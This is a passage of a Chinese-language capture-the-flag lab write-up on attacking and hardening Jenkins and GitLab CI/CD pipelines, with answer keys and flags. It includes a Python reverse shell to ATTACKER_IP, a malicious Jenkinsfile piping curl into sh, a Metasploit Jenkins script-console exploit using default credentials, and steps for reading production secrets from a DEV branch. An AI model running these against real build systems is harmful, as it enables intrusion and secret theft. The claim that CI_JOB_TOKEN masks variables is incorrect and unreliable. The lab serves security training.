这些问题的答案可以帮助您确定管道的攻击面。 虽然在大多数情况下，对其中一个问题的错误回答不会危及构建或管道，但您必须注意一些有毒组合。 让我们更仔细地看看这三个问题。

#### 哪些操作启动构建过程

我们能够决定哪些操作可以启动构建过程。 通常，默认情况下，将新代码提交到源将启动管道。 但我们确实能够提供更细粒度的配置。 例如，我们可以决定只有提交到特定分支（如 main）才应启动管道。 这种配置意味着我们可以更安心地允许开发人员直接提交到其他分支。 只要我们限制谁有能力直接提交到主分支或批准其合并请求，我们就可以限制管道的攻击面。

然而，这可能会让我们遇到合并请求在管道中中断的问题，导致我们执行多次合并只是为了修复问题，这可能很繁琐。 因此，可能有一个用例，即构建过程已经在其他分支上启动，或者当新的合并请求被提出时，以指示合并请求是否会破坏我们的管道。 如果我们选择走这条路，我们必须理解我们的攻击面已经增长，因为多个操作可以启动构建过程。 现在还不用担心，但我们必须确保这些操作不能由任何人随意执行！

#### 谁可以启动构建过程

一旦我们决定哪些操作可以启动构建过程，我们需要缩小谁可以执行这些操作的范围。 如前所述，管道仅在代码合并到主分支时执行；这可能是一个非常小的用户列表，他们有能力批准这些合并。 如果我们允许构建从其他操作启动，问题就变得更复杂。 基于可以启动构建的操作（和分支），我们将不得不问谁可以启动它并将他们添加到列表中，从而增加攻击面。 例如，如果我们允许构建在合并请求本身上启动，我们必须确保攻击者不能提出合并请求，或者合并构建将在隔离环境中进行。

#### 构建将在哪里进行

最后，我们需要决定构建将在哪里进行。 我们不必仅仅依赖单个构建代理来执行所有构建。 在上面的例子中，如果我们希望开发人员在其他分支上运行构建，我们可以简单地注册一个新的构建代理，该代理将在与主分支的构建代理不同的环境中运行构建。 基于我们对前两个问题的答案，我们可能需要确保构建执行的位置是安全的。 如果我们允许多个操作启动构建，我们可能希望确保相同的构建代理不用于所有这些操作，因为它们具有不同的敏感度。

既然我们理解了必须回答的三个问题，让我们探索一个非常有趣但常见的有毒组合！

### 利用合并构建

一个常见的有毒组合称为 On-Merge 构建。 让我们看看 Ash Android 代码库中留下的 README（[http://gitlab.tryhackme.loc/ash/Merge-Test](http://gitlab.tryhackme.loc/ash/Merge-Test)）：


看起来 Ash 对用户向他的代码提出合并请求感到厌倦，结果却破坏了他的管道！ 为了解决这个问题，他启用了 on-merge 构建。 这意味着一旦提出合并请求，将执行构建以测试合并代码。 这是一个非常常见的配置。 某些CI/CD软件（如Jenkins）默认启用此功能！ 然而问题在于，这可能导致系统被入侵。 让我们看看如何利用这一点来入侵构建代理并获取一些机密信息！

查看源代码，我们发现Ash使用了Jenkinsfile。 这是一个CI/CD脚本，Jenkins将通过webhook执行它。 实际上，当执行某些操作时，例如打开合并请求或将代码推送到分支，Gitlab将通过webhook通知Jenkins变更。 然后Jenkins将拉取源代码并执行Jenkinsfile中列出的步骤，然后向Gitlab提供构建结果的反馈。

然而，这也正是问题的根源。 如果要构建合并请求，并且任何用户都可以修改源代码和CI/CD Jenkinsfile，这意味着用户可以导致构建代理构建恶意代码。 要执行此过程，我们首先需要分叉Ash的代码库。 导航到代码库并点击Fork选项：


分叉将创建项目的副本。 选择您的命名空间，将项目标记为私有，然后选择Fork项目：


虽然有多种方式可以利用合并构建，但我们将专注于最简单的方法，即修改Jenkinsfile。 CI/CD流水线通常只是将代码执行作为一项功能，我们可以通过更新Jenkinsfile来简单地为我们执行shell来利用这一点！ 有很多方法可以做到这一点；如果您感觉熟练，可以自己尝试。 我们将采用较慢的方法，以确保在构建执行时从Jenkins服务器获得反馈。 为此，我们将首先创建一个简单的反向shell文件：

```bash title="shell.sh"
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

确保将ATTACKER_IP修改为您的VPN或AttackBox IP。 您现在可以使用`python3 -m http.server 8080`通过简单的Python网络服务器托管此文件，并使用`nc -lvp 8081`创建监听器。 点击Jenkinsfile，然后点击编辑，并用以下代码替换您的Jenkinsfile：

```plaintext title="Jenkinsfile"
pipeline {
    agent any
    stages {
       stage('build') {
          steps {
              sh '''
                    curl http://ATTACKER_IP:8080/shell.sh | sh
                '''                 
              }             
          }
       }       
    }
```

完成编辑后，提交更改。 要让Jenkins执行我们现在的恶意Jenkinsfile，我们需要创建一个合并请求：


创建合并请求，添加描述，然后点击创建。 如果您在几秒钟内完成了所有步骤，您应该会看到向您的网络服务器发出调用以下载shell，并在不久后在终端上看到新的shell连接！

```shell title="Terminal"
root@AttackBox:~$ nc -lvp 8081
Listening on 0.0.0.0 8081
Connection received on jenkins.tryhackme.loc 55994
/bin/sh: 0: can't access tty; job control turned off
$ whoami
ubuntu
```

**注意：如果您在过程中的某个地方出错，您将必须提交新的合并请求才能获得shell。 然而，必须是一个全新的合并请求才能触发webhook。 因此，最简单的选择是完全删除您的分叉代码库并重新开始。 为此，导航到您的分叉代码库，然后转到设置 -> 高级 -> 删除项目。 删除后，您可以再次分叉代码库并重新开始。**

保护构建过程

保护构建过程是确保在代码生命周期开始时避免漏洞的关键。 不安全的构建可能启用无文件攻击、供应链攻击以及许多在流水线后期难以检测的麻烦。 以下是一些最佳实践，它们综合了之前任务中讨论的内容：

1. **隔离与容器化**：在隔离的容器中运行构建，以防止干扰并保持一致性。
2. **最小权限**：授予CI/CD工具最小权限，限制对敏感资源的不必要访问。
3. **机密管理**：使用CI/CD工具的机密管理功能安全地存储和注入敏感数据。
4. **不可变制品**：将构建制品存储在安全的注册表中，以防止篡改并便于审计。
5. **依赖扫描**：集成依赖扫描以识别和解决第三方库中的漏洞。
6. **流水线即代码**：将CI/CD流水线定义为代码，与源代码一起进行版本控制。
7. **定期更新**：保持CI/CD工具和依赖项最新，以解决已知漏洞。
8. **日志记录与监控**：监控构建日志以发现异常活动，并将其与安全监控系统集成。

:::info 回答以下问题

<details>

<summary> 您应该在哪里存储制品以防止篡改？ </summary>

```plaintext
secure registry
```

</details>

<details>

<summary> 您应该始终使用什么机制来存储和注入敏感数据？ </summary>

```plaintext
secret management
```

</details>

<details>

<summary> 恶意行为者可以执行什么攻击来在构建过程中注入恶意代码？ </summary>

```plaintext
dependency confusion
```

</details>

<details>

<summary> 向Mother认证并按照流程获取Flag 1。 Flag 1是什么？ </summary>

```plaintext
THM{7753f7e9-6543-4914-90ad-7153609831c3}
```

</details>

:::

## 任务7 保护构建服务器

我们的构建过程现在已受到保护。 下一个攻击点是构建服务器本身！ 如果攻击者能够获得访问或控制我们的构建服务器，这将使他们处于相当有利的位置来破坏流水线和构建。

### 构建服务器基础

在深入攻击之前，让我们讨论基本的构建服务器安全。 最简单的起点是访问控制。 即使在现代，对构建基础设施的常见攻击也是猜测凭据并获得访问权限。 每当您在野外看到Jenkins服务器时，您会惊讶于`jenkins:jenkins`多少次都能成功！

为了保护我们的构建服务器，我们希望限制对它的访问。 您经常会发现多个成员可以访问同一个构建服务器。 在这些情况下，我们需要应用细粒度的访问控制，以确保一个用户的入侵不会导致所有构建的入侵。 此外，我们希望通过使用多因素认证来限制用户被入侵的可能性。

### 暴露的构建服务器

让我们看一下网络中位于[http://jenkins.tryhackme.loc:8080/](http://jenkins.tryhackme.loc:8080/)的Jenkins构建服务器。 您可能需要首先使用网络图中显示的机器IP再次更新您的`/etc/hosts`文件。 您应该看到以下屏幕：


让我们试试`jenkins:jenkins`，我们应该会被认证！


在此任务中，我们将看看使用一些MSF模块来攻击Jenkins构建服务器。 在AttackBox或您的Kali VM上，使用`msfconsole`在终端中启动Metasploit。 我们将使用MSF中的jenkins_script_console模块：

```shell title="Terminal"
msf6 > use exploit/multi/http/jenkins_script_console
msf6 exploit(multi/http/jenkins_script_console) > show options

Module options (exploit/multi/http/jenkins_script_console):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   API_TOKEN                   no        The API token for the specified username
   PASSWORD                    no        The password for the specified username
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit
                                         .html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /jenkins/        yes       The path to the Jenkins-CI application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    no        The username to authenticate as
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0
                                       .0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST                   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows
```

使用正确的值配置您的模块并执行以获得shell：

```shell title="Terminal"
msf6 exploit(multi/http/jenkins_script_console) > set target 1
target => 1
msf6 exploit(multi/http/jenkins_script_console) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf6 exploit(multi/http/jenkins_script_console) > set password jenkins
password => jenkins
msf6 exploit(multi/http/jenkins_script_console) > set username jenkins
username => jenkins
msf6 exploit(multi/http/jenkins_script_console) > set RHOST jenkins.tryhackme.loc
RHOST => jenkins.tryhackme.loc
msf6 exploit(multi/http/jenkins_script_console) > set targeturi /
targeturi => /
msf6 exploit(multi/http/jenkins_script_console) > set rport 8080
rport => 8080
msf6 exploit(multi/http/jenkins_script_console) > run

[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: '887729f7a718bb81c8f00bff0df12b4bfb479ccd9cf91582f48107c457cb7d2e' (Jenkins-Crumb style v2)
[*] 52.50.36.84:8080 - Sending Linux stager...
[*] Command Stager progress - 100.00% done (751/751 bytes)
[*] Started bind TCP handler against 52.50.36.84:4444
[*] Sending stage (3045348 bytes) to 52.50.36.84
[*] Meterpreter session 1 opened (10.10.198.237:40199 -> 52.50.36.84:4444) at 2023-08-21 20:49:51 +0100

meterpreter > getuid
Server username: jenkins
```

您也可以尝试在Jenkins服务器上执行手动利用。 这将涉及访问脚本控制台并使用Groovy脚本执行命令。 请随意尝试！

### 保护构建服务器

可以遵循以下步骤来保护您的构建服务器和构建代理：

- **构建代理配置**：配置构建代理仅与构建服务器通信，避免外部暴露。
- **私有网络**：将构建代理置于私有网络中，防止直接访问互联网。
- **防火墙**：使用防火墙限制入站连接，仅允许必要的构建服务器相关流量。
- **VPN**：使用VPN从远程位置安全访问构建服务器及其代理。
- **基于令牌的身份验证**：利用构建代理令牌进行身份验证，增加额外的安全层。
- **SSH密钥**：对于基于SSH的构建代理，使用安全的SSH密钥进行身份验证。
- **持续监控**：定期监控构建代理活动和日志，检测异常行为。
- **定期更新**：为构建服务器和代理更新安全补丁。
- **安全审计**：定期进行安全审计，识别并解决漏洞。
- **移除默认设置并强化配置**：确保强化构建服务器配置，移除所有默认凭据和弱配置。

:::info 回答以下问题

<details>

<summary> 可以使用什么来确保远程访问构建服务器能够安全执行？ </summary>

```plaintext
VPN
```

</details>

<details>

<summary> 可以使用什么为构建代理添加额外的身份验证安全层？ </summary>

```plaintext
Token-Based Authentication
```

</details>

<details>

<summary> 向Mother进行身份验证并按照流程获取Flag 2。 Flag 2是什么？ </summary>

```plaintext
THM{1769f776-e03c-40b6-b2eb-b298297c15cc}
```

</details>

:::

## 任务8 保护构建流水线

在确保构建服务器安全后，接下来我们将关注流水线本身！ 即使我们做对了所有事情，仍然需要考虑我们的开发人员可能被入侵的情况。 无论是实际开发人员通过社会工程攻击被入侵，还是仅仅他们的凭据被泄露，这种入侵都可能导致我们的流水线和构建失败。 幸运的是，有可以应用的保护措施！

### 访问门控

访问门控，也称为门或检查点，在软件开发流水线中充当"阶段"。 它们确保代码只有在满足预定义的质量和安全标准后才能通过流水线推进。 访问门控在增强开发过程的控制、质量保证和安全性方面至关重要。 这对每个人都有益。

1. **增强控制**：访问门控在流水线中提供检查点，允许受控地推进到不同阶段。
2. **质量控制**：门控确保代码在推进前满足预定义的质量标准。
3. **安全检查**：门控支持在部署前进行安全评估，例如漏洞扫描。

**实施步骤**：

1. **手动审批**：在进入下一阶段前需要手动审批，确保彻底审查。
2. **自动化测试**：为代码质量、单元测试、集成测试等设置自动化测试门控。
3. **安全扫描**：集成安全扫描工具以检测代码库中的漏洞。
4. **发布门控**：使用门控验证适当的文档、版本控制和合规性。
5. **环境验证**：在部署前验证目标环境的准备情况。
6. **回滚计划**：包含一个门控，用于在部署后出现问题时执行明确定义的回滚计划。
7. **监控**：实施监控门控以评估部署后性能。
8. **并行门控**：并行运行门控以加快流水线速度，同时不牺牲质量。
9. **审计**：定期审查门控配置和结果以确保有效性。

### 双人原则

即使我们有访问门控，也需要确保没有单个用户能够通过这些访问门控。 如果您是发起构建的开发人员，您应该被阻止通过下一个访问门控。 这应该始终由其他人完成。 通过技术控制强制执行这一点，可以确保在开发人员被入侵的情况下，构建无法被推进。 这被称为双人规则。

某些构建服务器可能不允许您对访问门控实施控制以确保是不同的人员。 在这些情况下，一个好的解决方法是简单地将所需的审批数量从1增加到2。 这样，开发人员提供一个审批，但第二个人必须提供另一个审批。

### 利用配置错误的访问门控

让我们看一个访问门控配置错误的示例。 在此示例中，我们将为您提供作为Ana用户的访问权限。 您将在所有后续练习中使用此用户。 您可以使用以下详细信息以Ana身份验证到Gitlab：

|  键  |            值            |
| :-: | :---------------------: |
| 用户名 |        anatacker        |
|  密码 | Password1@ |

Ash已授予Ana对其Approval-Test仓库的开发人员访问权限，该仓库可在此处找到：[http://gitlab.tryhackme.loc/ash/approval-test](http://gitlab.tryhackme.loc/ash/approval-test)。 为了保护仓库的主分支，Ash已将主分支配置为受保护分支，开发人员仅允许创建合并请求，不允许直接更改代码。 让我们通过更新README文件并尝试将更改提交到主分支来测试这一点。 导航到README文件并单击编辑：


如您所见，Gitlab自动要求我们为我们想要进行的更改启动合并请求。 您还会看到我们无法取消选择直接提交的选项。 对文件进行小更改并单击提交更改：


立即，您会看到我们必须为我们的更改创建合并请求。 添加描述并创建合并请求。 Ash的思考过程是这将保护主分支，因为公司政策规定合并请求必须由经理批准。 由于我们现在被迫创建合并请求，主分支受到保护。 然而，Ash在他的安全思考过程中犯了以下两个错误：

- 未通过技术强制执行的策略不会被攻击者尊重。 当然，政策说经理必须批准合并请求，但如果您阅读合并请求，您会看到从技术角度来看，Gitlab表示批准是可选的。
- 尽管主分支通过不允许任何直接推送而受到保护，但由于开发人员仍然可以创建合并请求，他们可以简单地推送自己的合并请求以将代码提交到主分支。 未实施双人原则以确保必须由另一个人接受合并请求。

利用这些错误，作为攻击者，您可以简单地批准自己的合并请求（尽管甚至不需要），然后您可以将其合并到主分支，如下所示！


审查主分支中的代码，您已对主分支进行了更改！ 现在到了有趣的部分。 GitLab runner 被配置为仅在主分支上运行。 既然我们现在可以向主分支推送代码，我们就可以入侵 runner。 现在您知道了如何将代码推送到主分支，请对 .gitlab-ci.yml 文件进行一些更改，以在 runner 上获取代码执行权限。 您可以使用到目前为止学到的任何技术！

### 保护流水线

保护您的 GitLab CI/CD 流水线对于确保代码和基础设施的安全至关重要。 以下是您可以采取的步骤，通过访问门控来保护您的流水线，并防止未经授权的代码执行，如上述示例所示：

#### 限制分支访问

限制谁可以向主分支推送代码。 只有受信任的开发人员才应具备向此分支推送代码的能力。 您可以通过在 GitLab 仓库设置中配置分支保护规则来实现这一点。 导航到 设置 > 仓库 > 默认分支。 配置规则以要求在允许更改之前进行审查。




#### 审查合并请求

强制执行合并请求（或拉取请求）以进行主分支更改。 合并请求提供了一种在合并之前审查和批准代码更改的方式。 您可以配置合并请求审批，以确保多个团队成员审查并批准更改。

#### 使用 CI/CD 变量

避免在 .gitlab-ci.yml 文件中直接存储敏感信息。 相反，使用 GitLab CI/CD 变量来存储机密信息，如 API 密钥、密码和令牌。 这些变量可以受到保护，并限制在特定的分支和标签上使用。

#### 限制 Runner 访问

只允许受信任的 runner 执行 CI/CD 作业。 通过指定标签，您可以为特定的标签注册 runner，然后在 .gitlab-ci.yml 文件中限制哪些 runner 可以用于作业。 只有具有适当标签的 runner 才能在主分支上运行作业。

#### 访问控制和权限

审查并配置项目级和组级的访问控制和权限。 通过检查项目的设置并在必要时修改 CI/CD 配置，审查并确保您拥有最小权限始终是好的做法。

#### 定期审计

定期对您的 GitLab 配置和 CI/CD 流水线进行安全审计。 审查谁拥有访问权限和权限，并确保遵循最佳实践。

#### 监控和告警

为您的流水线设置监控和告警。 实施安全监控解决方案，以检测 GitLab 环境和 CI/CD 流水线中的异常或未经授权的活动。

:::info 回答以下问题

<details>

<summary> 我们可以添加什么，以便为合并请求进行审查，而不是直接将更改推送到代码？ </summary>

```plaintext
merge requests
```

</details>

<details>

<summary> 我们应该做什么，以便只有受信任的 runner 执行 CI/CD 作业？ </summary>

```plaintext
limit runner access
```

</details>

<details>

<summary> 向 Mother 认证并按照流程获取 Flag 3。 Flag 3 是什么？ </summary>

```plaintext
THM{2411b26f-b213-462e-b94c-39d974e503e6}
```

</details>

:::

## 任务 9 保护构建环境

我们的流水线是安全的；我们几乎完成了！ 还剩下两个步骤！ 接下来的任务是确保我们的环境是安全的。 威胁行为者可能尝试入侵我们构建的最后一个点是在我们将构建部署到其环境时。

### 环境隔离

我们流水线中的一个关键安全原则是确保我们的不同环境是隔离的。 环境并不平等，尤其是在使用敏捷原则的现代时代。 开发人员通常在生产（PROD）和预生产（PREPROD）以外的环境中被授予相当多的访问权限和能力。 如果您需要复习不同类型的环境，请查看这个房间。 有了这些额外的权限，我们需要确保各种环境之间有足够的隔离。

乍一看，您可能认为这是一项简单的任务。 我们需要做的就是确保开发人员无法访问这些敏感环境。 然而，随着流水线的引入，这变得稍微复杂一些。 即使我们限制对这些环境的直接访问，流水线中也可能存在可以被利用的侧信道。 在这个任务中，我们将看看一个常见的错误配置，即构建代理本身没有被隔离。

### 一个构建代理统治所有

在我们的下一个示例中，Ash 从他的错误中吸取了教训，并确保只授予 Ana 对开发（DEV）分支的访问权限。 主分支现在完全受限。 我们仍然可以访问 DEV 分支，因为 Ash 希望他的开发人员采用敏捷开发流程。 幸运的是，DEV 分支确实附加了一个 GitLab runner。 导航到新的仓库 [http://gitlab.tryhackme.loc/ash/environments/](http://gitlab.tryhackme.loc/ash/environments/) 开始。 导航到 操作->环境 部分以查看两个环境：


让我们仔细看看为生产执行的最后一次构建。 点击构建并选择 流水线 选项卡以查看为生产执行的构建：


调查流水线并查看为主流水线执行的其中一个作业。 通过点击一个带有 main 标签的作业，注意右上角指定的 runner：


如我们所见，构建使用了编号为 6 的 runner。 按照上一个任务的步骤，在 DEV 分支中，对 README 文件进行一个小更改，并观察哪个 runner 被用于该作业。

有趣！ 看来 Ash 试图通过为项目使用单个 runner 来节省一些预算。 负责 DEV 和 PROD 构建。 因此，如果我们通过 DEV 访问入侵 runner，我们就可以拦截生产构建！ 利用之前的一种技术入侵构建代理，并从 runner 读取一些敏感信息！ 一旦您入侵了 runner，您就可以访问 DEV 和 PROD！

### 保护构建环境

保护您的构建环境对于防止通过 DEV 和 PROD 共享的单个 runner 入侵您的生产流水线至关重要。 以下是一些您可以采取的步骤来增强安全性：

#### 隔离环境

尽可能分离您的 DEV 和 PROD 流水线。 为 DEV 和 PROD 构建使用单独的 runner 或 runner 标签。 确保 DEV 环境中的任何入侵不会直接影响 PROD。 这样，您就无法以本任务中所示的方式入侵 PROD。

#### 限制 CI/CD 作业的访问

限制对运行器主机的访问。 只有授权人员才能访问运行 GitLab Runner 的机器。 实施强访问控制并监控未经授权的访问。 GitLab 提供"受保护的 CI/CD 环境"功能，允许您为环境定义访问控制，限制谁可以部署到这些环境。 权限功能限制并分配谁可以修改 CI/CD 配置，包括 .gitlab-ci.yml 文件。

#### 监控和告警

为您的 CI/CD 流水线和运行器实施监控和告警。 为可疑活动或构建失败设置告警，这可能表明系统已遭到入侵。 定期审查和审计访问权限，特别是环境和 CI/CD 配置的权限。 撤销不再需要访问权限的用户或角色的访问权限。

:::info 回答以下问题

<details>

<summary> 您应该怎么做才能确保受入侵的环境不会影响其他环境？ </summary>

```plaintext
isolate environments
```

</details>

<details>

<summary> 向 Mother 认证并按照流程从 DEV 环境领取 Flag 4。 Flag 4 是什么？ </summary>

```plaintext
THM{28f36e4a-7c35-4e4d-bede-be698ddf0883}
```

</details>

<details>

<summary> 向 Mother 认证并按照流程从 PROD 环境领取 Flag 5。 Flag 5 是什么？ </summary>

```plaintext
THM{e9f99dbe-6bae-4849-adf7-18a449c93fe6}
```

</details>

:::

## 任务 10 保护构建机密

我们能看到终点线就在眼前！ 我们的流水线和构建几乎已经安全了！ 只剩下最后一步：确保我们的构建机密得到充分保护！

### 一机密统领全局

Larry 现在终于吸取了教训，确保为不同环境实施了隔离的运行器。 但还有一个问题。 虽然这些流水线可能是隔离的，但我们需要确保机密（在 GitLab 中称为变量）也是隔离的。 如果机密的作用域没有明确定义，我们可以在 DEV 构建中请求使用 PROD 机密，从而最后一次入侵生产环境！ 导航到我们用于此漏洞利用的最后一个仓库：[http://gitlab.tryhackme.loc/ash/environments](http://gitlab.tryhackme.loc/ash/environments)。

让我们像上一个任务中那样，查看环境和它们的最新构建。 查看其中一个生产部署，我们可以看到构建正在使用 API_KEY 变量：


作为 Ana，我们没有列出不同变量所需的权限，但查看 DEV 分支的 CI 文件，我们可以看到我们的 DEV 变量是不同的：


在我们的例子中，值是 API_KEY_DEV。 让我们修改这个变量，并回显其值，看看我们是否能访问 PROD 变量。 在 DEV 分支的 CI 文件中进行更改，看看会发生什么！

### 保护构建机密

保护构建机密，即使在使用 GitLab CI/CD 变量时，对于维护流水线的安全性也至关重要。 GitLab CI/CD 提供了一个名为"掩码变量"的功能，以帮助防止机密在日志中暴露。 以下是您如何使用此功能：

#### 掩码变量

您可以通过使用 CI_JOB_TOKEN 预定义变量在 .gitlab-ci.yml 文件中掩码变量。 此令牌由 GitLab 自动设置，可用于掩码任何您希望隐藏的变量值。

例如，如果您有一个名为 MY_SECRET_KEY 的变量，您可以像这样使用它：

```yml
my_job:
  script:
    - echo "$MY_SECRET_KEY" # This will expose the secret
    - echo "masked: $CI_JOB_TOKEN" # This will mask the secret
```

#### 使用安全变量

如果您想在 GitLab 中安全地存储机密，您可以使用启用了"掩码"选项的 GitLab CI/CD 变量。 这些变量被安全存储，即使在脚本中直接使用，也永远不会在作业日志中暴露。 要创建安全变量：

- 转到 GitLab 项目。
- 导航到 设置 > CI/CD > 变量。
- 添加一个新变量，选择"掩码"复选框，并提供值。
- 添加安全变量后，您可以在 .gitlab-ci.yml 文件中使用它，而不用担心它在日志中暴露。

注意：确保您的作业脚本不会无意中回显或打印敏感信息，即使在使用掩码变量时也是如此。 仔细检查您的脚本，避免无意中暴露机密。

#### 访问控制

限制对 CI/CD 变量和日志的访问。 只有授权人员才能在 GitLab 中查看作业日志和变量。 您可以配置项目级和组级访问控制来实现这一点。

:::info 回答以下问题

<details>

<summary> 使用环境变量是否足以保护构建机密？ (是或否) </summary>

```plaintext
nay
```

</details>

<details>

<summary> PROD API_KEY 的值是什么？ </summary>

```plaintext
THM{Secrets.are.meant.to.be.kept.Secret}
```

</details>

:::

## 任务11 结论

基于我们在先前任务中看到的攻击和错误配置，我们可以理解：

1. 流水线安全是优先事项：确保 CI/CD 流水线的安全对于保护代码和数据完整性至关重要。
2. 访问控制是基础：限制对关键分支、环境和 CI/CD 变量的访问是防止未经授权的更改和数据暴露的第一道防线。
3. 运行器安全至关重要：正确保护运行 GitLab Runner 的机器，以及强身份验证，是防止入侵的必要措施。
4. 机密管理很重要：通过 GitLab CI/CD 变量（使用掩码和安全变量）保护敏感数据（如 API 密钥和密码）至关重要。 使用环境变量是不够的。
5. 隔离环境：分离开发（DEV）和生产（PROD）环境可以最小化通过前者入侵后者的风险。
6. 持续警惕：定期审查访问权限、脚本和安全配置，结合监控和告警，确保持续的安全性。
7. 教育是关键：教育您的团队关于安全最佳实践对于维护强大的安全态势至关重要。

:::info 回答以下问题

<details>

<summary> 我理解 CI/CD 和构建安全！ </summary>

```plaintext
No answer needed
```

</details>

:::
